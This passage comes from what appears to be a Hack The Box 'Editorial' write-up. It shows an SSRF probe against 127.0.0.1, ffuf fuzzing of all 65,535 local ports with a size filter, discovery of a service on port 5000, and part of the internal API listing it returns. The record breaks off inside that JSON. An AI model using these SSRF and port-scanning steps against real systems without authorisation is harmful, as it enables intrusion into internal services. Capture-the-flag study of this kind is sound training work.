 Let's cook this SSRF.
i tried to put `http://127.0.0.1` as a URL, but i get this response.
<img src="/assets/img/htb/editorial/capture3.png">
The path provided in the response isn't very interesting, so i tried to fuzz the target's port as i may find any local port for the target open.
I changed the url to `http://127.0.0.1:FUZZ` and saved the request to file.
then i ran this command.
```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/editorial]
└─$ ffuf -request req -request-proto http -w <(seq 1 65535)
```
I found that all the ports return response with the same size which is 61, so i filtered it out and my new command is:
```bash
┌──(youssif㉿youssif)-[~/Desktop/HTBMachines/editorial]
└─$ ffuf -request req2 -request-proto http -w <(seq 1 65535) -fs 61
```
`-fs 61` : means filter out by size (don't show result whose response size is 61)
that gave me result on port 5000 only, so i sent the request with this url `http://127.0.0.1:5000` and i got this
<img src="/assets/img/htb/editorial/capture4.png">
The response is different now, and when i visit this endpoint i got file with json data whose content is
```json
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
```